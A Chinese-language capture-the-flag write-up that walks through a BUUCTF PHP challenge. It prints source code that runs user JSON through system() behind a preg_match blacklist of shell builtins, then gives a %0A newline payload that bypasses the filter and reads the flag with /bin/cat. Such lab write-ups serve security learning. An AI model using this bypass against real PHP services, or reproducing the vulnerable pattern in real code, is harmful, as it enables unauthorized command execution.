 ### 换行符绕过 preg_match()

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67d7ca4c88c538a9b5bfe124.png)

打开网页需要 JSON 格式输入

![](https://pic1.imgdb.cn/item/67d7ca7688c538a9b5bfe138.png)

输入 `{"cmd":"ls"}`，只有一个 index,php，而且不能读取

![](https://pic1.imgdb.cn/item/67d7caa388c538a9b5bfe14e.png)

网站源码如下：

```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

过滤的很严，但是可以绕过 preg_match() 函数本身

因为 preg_match() 只会去匹配第一行，所以这里可以用多行进行绕过

这行代码已经修改了环境变量，我们只能用绝对路径来调用系统命令

```php
putenv('PATH=/home/rceservice/jail');
```

cat 命令在 /bin 中保存

所以构造出 payload ，%0A 是换行符

```
{%0A"cmd": "/bin/cat /home/rceservice/flag"%0A}
```

